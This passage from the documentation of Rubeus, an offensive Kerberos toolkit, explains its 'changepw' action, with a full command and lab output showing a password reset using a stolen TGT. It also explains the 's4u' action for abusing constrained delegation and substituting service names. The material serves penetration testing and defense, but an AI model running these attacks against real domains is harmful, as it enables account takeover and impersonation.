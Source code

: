 
## changepw

The **changepw** action will take a user's TGT .kirbi blog and execute a MS kpasswd password change with the specified /new:X value. If a /dc is not specified, the computer's current domain controller is extracted and used as the destination for the password reset traffic. This is the Aorato Kerberos password reset disclosed in 2014, and is equivalent to Kekeo's misc::changepw function.

    C:\Temp\tickets>Rubeus.exe changepw /ticket:doIFFjCCBRKgA...(snip)...== /new:Password123!

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.2.0

    [*] Action: Reset User Password (AoratoPw)

    [*] Changing password for user: harmj0y@TESTLAB.LOCAL
    [*] New password value: Password123!
    [*] Building AP-REQ for the MS Kpassword request
    [*] Building Authenticator with encryption key type: rc4_hmac
    [*] base64(session subkey): nX2FOQ3RsGxoI8uqIg1zlg==
    [*] Building the KRV-PRIV structure
    [*] Connecting to 192.168.52.100:464
    [*] Sent 1347 bytes
    [*] Received 167 bytes
    [+] Password change success!


## s4u

The **s4u** action is nearly identical to Kekeo's **tgs::s4u** functionality. If a user (or computer) account is configured for constrained delegation (i.e. has a SPN value in its msds-allowedtodelegateto field), this action can be used to abuse access to the target SPN/server.

First, a valid TGT/KRB-CRED file is needed for the account with constrained delegation configured. This can be achieved with the **asktgt** action, given the NTLM/RC4 or the aes256_cts_hmac_sha1 hash of the account.

The ticket is then supplied to the **s4u** action via /ticket (again, either as a base64 blob or a ticket file on disk), along with a required /impersonateuser:X to impersonate to the /msdsspn:SERVICE/SERVER SPN that is configured in the account's msds-allowedToDelegateTo field. The /dc and /ptt parameters function the same as in previous actions.

The /altservice parameter takes advantage of [Alberto Solino](https://twitter.com/agsolino)'s great discovery about [how the service name (sname) is not protected in the KRB-CRED file](https://www.coresecurity.com/blog/kerberos-delegation-spns-and-more), only the server name is. This allows us to substitute in any service name we want in the resulting KRB-CRED (.kirbi) file. One or more alternate service names can be supplied, comma separated (/altservice:cifs,HOST,...).
